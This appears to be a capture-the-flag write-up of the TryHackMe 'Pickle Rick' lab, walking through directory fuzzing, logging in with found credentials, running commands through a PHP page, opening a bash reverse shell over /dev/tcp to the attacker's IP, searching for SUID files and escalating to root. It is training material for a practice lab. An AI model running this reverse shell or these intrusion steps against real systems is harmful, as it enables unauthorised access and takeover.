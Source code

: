 * * *
  ### PICKLERICK CTF
  Lab platform: THM
* * *

### Enumeration
-  Scanning with rust scan

         rustscan -a <ip>
   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/9a583d8e-d4c3-4336-8adf-99555949d27c)

- Fuzz for directories and files with ffuf which reveals a login.php and robots.txt file

       ffuf -u "http://10.10.92.53/FUZZ" -w "/usr/share/seclists/Discovery/Web-Content/big.txt"

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/871c3612-4d24-48aa-85dd-0f71d9bf64f8)

      ffuf -u "http://10.10.92.53/FUZZ" -w "/usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt" -e .php,.txt,.html -mc 200
  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/a433b0a4-337a-4980-b65e-78e8b816b1ea)


- Viewing the source of the index page reveals a username

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/b6c9a89d-9eed-4c82-8e93-e8ef4be40a94)

- The robot.txt file reveals a weird word

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/a634be9f-cbb6-45fd-9355-88500f0fbaa4)

- I logged in with the username and password <the weird word> which reveals a php page for shell commands execution and the picture below provides the result of executing 'ls'

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/341db42e-b00e-4602-b9bb-1d0eee1c2484)

- Let's pop a bash rev shell from revshells.com "bash -c "bash -i >& /dev/tcp/10.18.31.164/9999 0>&1" and stablize the shell with pty py module

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/0fa49651-b720-406a-9ff8-fd01d0218ef6)

### Escalating privileges 

- Look for files with suid bit with this command

       find / -perm -u=s -type f 2</dev/null

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/165012d2-7b95-4341-81d6-1f569183ca1a)

- After multiple trial and error,I discovered with gtfobins that I can escalate privileges with su

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/b7d4942a-53d2-421d-be12-3c57a73b32c7)

- Root access achieved

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/124a90b0-e6c9-475e-91f1-9f2fce928d0a)

### Finding the potions

- The first ingredient is located in the "/var/ww/html" directory

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/0253ec42-8733-4dee-8d54-c21b4f5ed799)

- The second ingredient is located in RICK's home directory

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/54fe6041-5b56-4285-bf75-428782916b6b)

- The last ingredient is located in the root directory,challenge solved

    ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/fec592d4-7327-4efa-b615-ca3d1a7fe77f)


   
  
-
